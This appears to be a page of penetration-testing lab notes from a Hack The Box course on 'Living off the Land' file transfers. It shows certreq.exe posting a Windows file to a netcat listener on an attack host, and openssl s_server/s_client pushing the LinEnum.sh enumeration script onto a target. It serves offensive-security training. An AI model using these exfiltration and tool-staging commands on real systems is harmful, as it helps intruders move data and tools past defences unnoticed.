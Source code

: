 # 🏨 Living off The Land

There are currently two websites that aggregate information on Living off the Land binaries:

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

### LOLBAS

<figure><img src="../../../.gitbook/assets/image (1443).png" alt=""><figcaption></figcaption></figure>

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

**Upload win.ini to our Attackbox**

```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

And in our netcat session ->

```shell-session
ElFelixi0@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
<SNIP>
```

If we have an error, the version we are using may not contain the `-Post` parameter. We can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

### GTFOBins

<figure><img src="../../../.gitbook/assets/image (1444).png" alt=""><figcaption></figcaption></figure>

We need to create a certificate in our pwnbox and start a server in our Pwnbox.

Cert ->

```shell-session
ElFelixi0@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Server up ->

```shell-session
ElFelixi0@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Now we need to download the file from the target machine ->

```shell-session
ElFelixi0@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```
